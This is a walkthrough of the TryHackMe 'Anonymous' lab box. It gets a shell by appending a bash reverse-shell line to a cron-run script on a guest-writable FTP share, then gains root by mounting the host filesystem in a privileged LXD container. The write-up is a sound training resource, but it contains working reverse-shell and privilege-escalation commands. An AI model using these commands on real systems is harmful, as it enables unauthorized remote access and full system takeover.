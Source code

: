# Anonymous Walkthrough - TryHackMe  

---

## Introduction 

Essentially, the owner of the box left an **FTP directory writable to guests**. Inside, there is a bash script called `clean.sh` that cleans the `/tmp` directory. This script is run by a **cron job**, which means we can **modify files in the FTP share** to include a malicious line of code and gain a shell on the box — part 1 done.  

For privilege escalation, the user we log in as is a member of the **sudo group**. This allows us to leverage **LXD** to get root on the box.  

Let’s jump in!  

---

## Step 1: Nmap Scan

We start with a basic scan:

``
nmap -sC -sV <target-ip>``
Initially, only two ports were open.

    No web server was found, so a full TCP scan was run to check for missed ports.

    Two more ports were discovered: standard SMB ports.

Step 2: Service Analysis

    SearchSploit was used to analyze the FTP service.

    We discovered anonymous FTP login is allowed.

Step 3: FTP Enumeration

Connect to FTP using:

ftp <target-ip>

Explore the files on the FTP share:

    To_do.txt – Reminder to disable anonymous login

    clean.sh – Bash script deleting /tmp files

    removed_files.log – Logs of deleted files

Since the script is run by cron, modifying clean.sh allows us to inject a reverse shell.
Step 4: SMB Enumeration

    SMB share named pics allowed NULL authentication.

    The share contained just images (likely not relevant), so we returned to FTP exploitation.

Step 5: Gaining a Shell

    Edit clean.sh and add a bash reverse shell with your IP:

bash -i >& /dev/tcp/<your-ip>/4444 0>&1

    Upload the modified script using FTP append:

ftp> append clean.sh

    Start a listener on your machine:

nc -lvnp 4444

    Wait for the cron job to execute clean.sh. A few seconds later, a shell is obtained.

Step 6: Capture User Flag

Navigate to the user's home directory:

cd /home/namelessone
cat user.txt

Step 7: Privilege Escalation

    Check /etc/passwd to identify users with shells (root and namelessone).

    Run LinPEAS for automated enumeration. It revealed the user is part of sudo and adm groups.

    If we had a password for namelessone, we could escalate to root via sudo.

    Found potential privilege escalation via LXD.

Step 8: Exploiting LXD

LXD is Ubuntu's container manager using Linux containers. Users in the lxd group can be exploited to gain root.

    Download LXD Alpine builder from GitHub.

    Build a small Alpine Linux image.

    Upload the image to the target machine.

    Import the image into LXC:

lxc image import alpine.tar.gz --alias myalpine

    Create and start a container:

lxc init myalpine privesc -c security.privileged=true
lxc config device add privesc mydisk disk source=/ path=/mnt
lxc start privesc
lxc exec privesc -- /bin/bash

    We now have root access on the box.

Step 9: Capture Root Flag

cat /root/root.txt

Submit the flag and claim your points!
Conclusion

    Exploited writable FTP + cron to get a shell.

    Escalated privileges using LXD containers.

    Learned about the dangers of sudo group membership and LXD.

References

    Privilege Escalation via LXD

Linux Privilege Escalation via LXD & Hijacked UNIX Socket

TryHackMe Room: Anonymous
